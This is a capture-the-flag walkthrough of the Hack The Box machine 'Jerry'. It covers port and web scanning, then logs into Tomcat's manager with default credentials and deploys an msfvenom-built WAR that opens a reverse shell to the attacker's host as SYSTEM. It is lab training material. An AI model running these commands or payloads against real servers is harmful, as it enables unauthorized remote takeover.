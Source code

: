 # [Jerry](https://app.hackthebox.eu/machines/144)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.95 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.95 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.95
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.95
```

The TCP quick scan returns the following:

![nmap1](./jerry/nmap1.png)

Start the following web scanner:

```bash
nikto -h http://10.10.10.95:8080/ -C all --maxtime=120s --output=nikto.txt
```

![nikto1](./jerry/nikto1.png)

Browse to the site manually:

```bash
firefox http://10.10.10.95:8080/
```

![web1](./jerry/web1.png)

Site looks like a default install? Start a directroy scanner looking for `jsp` pages:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -r -q -z -o gobuster.misc.txt -x jsp \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -a 'Mozilla/5.0' \
  -u http://10.10.10.95:8080/ &
```

This returns some interesting results:

```bash
/index.jsp (Status: 200)
/docs (Status: 200)
/examples (Status: 200)
/manager (Status: 401)
```

The `/manager` directory returns a 401 which means "unauthorized". Trying to browse to that directly asks for a username and password. Trying a basic one does not work and returns the following page:

![web2](./jerry/web2.png)

Maybe the credentials `tomcat/s3cret` will work? Trying those results in a valid login:

![web3](./jerry/web3.png)

Looking at this webpage shows that it is possible to upload a WAR file. Generate one and use it to get a reverse shell:

```bash
msfvenom -p java/jsp_shell_reverse_tcp \
  LHOST=10.10.14.25 \
  LPORT=6969 \
  -f war \
  -o bubba.war
nc -nvlp 6969
```

Then upload `bubba.war` so that it is shown as a deployed app:

![web4](./jerry/web4.png)

Then browsing to `http://10.10.10.95:8080/bubba/` will trigger the reverse shell:

![root1](./jerry/root1.png)

This shell is running as SYSTEM but there is no `user.txt` or `root.txt`? Looking around, it seems like the file is at `c:\Users\Administrator\Desktop\flags`:

![root2](./jerry/root2.png)

